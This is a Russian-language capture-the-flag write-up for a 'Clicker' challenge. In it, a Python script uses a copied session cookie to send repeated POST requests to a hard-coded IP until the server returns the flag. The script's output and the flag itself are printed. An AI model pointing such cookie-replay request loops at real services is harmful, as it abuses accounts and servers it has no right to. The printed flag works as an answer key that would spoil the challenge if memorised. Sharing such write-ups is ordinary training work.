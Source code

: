 # Clicker

![Task](img/view_task.png)

Смотрим на <s>крутящуюся печеньку и меняющийся цвет кнопочки</s> таск, нужно **666$**...

Кликаем, чтобы получить тело запроса.

Видим, что идёт **POST** запрос на **/add** и отправляется **{"money":"add"}**.

Берём куки, пишем скрипт на питоне.

```python
import requests as r

head = {
    "Content-Type": "application/json",
    "Cookie": "session=e17950b9-e58e-4844-a6de-30673fada36a"
}

data = {
    "money" : "add"
}

while True:
    res = r.post('http://46.254.20.217:2002/add', headers = head, data = data).text
    print("Result: ",res)
    if "4hsl33p" in res:
        break
```

Запускаем

```sh
$ python3 solve.py
Result:  {"money":3,"success":true}
Result:  {"money":4,"success":true}
Result:  {"money":5,"success":true}
Result:  {"money":6,"success":true}
Result:  {"money":7,"success":true}
...
Result:  {"money":664,"success":true}
Result:  {"money":665,"success":true}
Result:  {"flag":"4hsl33p{U_4R3_CL1CK3D??}","success":true}
```

Флаг - *4hsl33p{U_4R3_CL1CK3D??}*

<s>Кстати, можно было и накликать.. и в теле 666 ответа будет флаг. Но кому это надо?</s>
